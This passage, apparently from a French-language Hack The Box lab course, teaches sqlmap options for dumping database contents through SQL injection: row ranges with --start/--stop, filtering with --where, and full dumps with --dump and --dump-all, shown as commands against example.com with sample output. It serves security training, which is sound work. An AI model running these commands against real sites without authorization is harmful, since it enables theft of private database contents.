 Pour affiner les lignes en fonction de leur(s) numéro(s) ordinaux à l'intérieur du tableau, nous pouvons spécifier les lignes avec les options `--start`et `--stop`(par exemple, commencer de la 2e à la 3e entrée), comme suit :

```
dsgsec@htb[/htb]$ sqlmap -u "http://www.example.com/?id=1" --dump -T users -D testdb --start=2 --stop=3

...SNIP...
Database: testdb

Table: users
[2 entries]
+----+--------+---------+
| id | name   | surname |
+----+--------+---------+
| 2  | fluffy | bunny   |
| 3  | wu     | ming    |
+----+--------+---------+

```

* * * * *

Énumération conditionnelle
--------------------------

S'il est nécessaire de récupérer certaines lignes en fonction d'une `WHERE`condition connue (par exemple `name LIKE 'f%'`), nous pouvons utiliser l'option `--where`, comme suit :

```
dsgsec@htb[/htb]$ sqlmap -u "http://www.example.com/?id=1" --dump -T users -D testdb --where="name LIKE 'f%'"

...SNIP...
Database: testdb

Table: users
[1 entry]
+----+--------+---------+
| id | name   | surname |
+----+--------+---------+
| 2  | fluffy | bunny   |
+----+--------+---------+

```

* * * * *

Énumération complète de la base de données
------------------------------------------

Au lieu de récupérer le contenu par table unique, nous pouvons récupérer toutes les tables de la base de données qui nous intéresse en ignorant `-T`complètement l'utilisation de l'option (par exemple `--dump -D testdb`). En utilisant simplement le commutateur `--dump`sans spécifier de table avec `-T`, tout le contenu actuel de la base de données sera récupéré. Quant au `--dump-all`switch, tout le contenu de toutes les bases de données sera récupéré.
